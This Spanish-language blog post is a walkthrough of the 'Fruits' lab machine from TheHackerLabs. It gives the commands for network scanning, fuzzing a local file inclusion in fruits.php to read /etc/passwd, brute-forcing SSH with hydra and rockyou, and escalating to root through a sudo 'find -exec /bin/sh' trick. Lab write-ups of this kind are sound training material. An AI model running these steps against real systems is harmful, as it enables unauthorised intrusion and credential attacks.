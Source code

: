 ```yaml
---
layout: post
title: "Fruits"
date: 2024-06-03 13:05:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Fruits </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/fruits/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Fruits/host.png){:.margin}

**1\.** Descubriendo dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Fruits/arp.png){:.margin}

**2\.** Escaneando puertos y servicios disponibles.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 192.168.1.5 -Pn -n`

![img](/notas/public/img/thehackerlabs/Fruits/nmap.png){:.margin}

**3\.** En la web tenemos un buscador, que me lleva a un php pero sin mas.

`http://192.168.1.5:80`

![img](/notas/public/img/thehackerlabs/Fruits/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Fruits/80redirect.png){:.margin}

**4\.** Descubriendo directorios y archivos en el servidor web.

`gobuster dir -u http://192.168.1.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -q`

![img](/notas/public/img/thehackerlabs/Fruits/gobuster.png){:.margin}

**5\.** Fuzzeando parametros para un LFI.

`wfuzz -c --hc=404 --hl=1 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.5/fruits.php?FUZZ=/etc/passwd' 2>/dev/null | grep -vE 'Target:|\*|Total'`

![img](/notas/public/img/thehackerlabs/Fruits/wfuzz.png){:.margin}

**6\.** Comprobando a que efectivamente se de un LFI.

`http://192.168.1.5/fruits.php?file=/etc/passwd`

![img](/notas/public/img/thehackerlabs/Fruits/etcpasswd.png){:.margin}

**7\.** Tengo dos usuarios disponibles en la maquina.

`view-source:http://192.168.1.5/fruits.php?file=/etc/passwd`

![img](/notas/public/img/thehackerlabs/Fruits/users.png){:.margin}

**8\.** Haciendo fuerza bruta al ssh.

`hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.5`

![img](/notas/public/img/thehackerlabs/Fruits/hydra.png){:.margin}

**9\.** Me conecto como usuario bananaman.

`ssh bananaman@192.168.1.5`

![img](/notas/public/img/thehackerlabs/Fruits/ssh.png){:.margin}

**10\.** Revisando permisos sudo.

`sudo -l`

![img](/notas/public/img/thehackerlabs/Fruits/sudol.png){:.margin}

**11\.** Escalando privilegios.

_\- Busco en [gtfobins](https://gtfobins.github.io/gtfobins/find/#sudo) la forma de escalar con este binario._

````sudo find . -exec /bin/sh \; -quit````

![img](/notas/public/img/thehackerlabs/Fruits/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>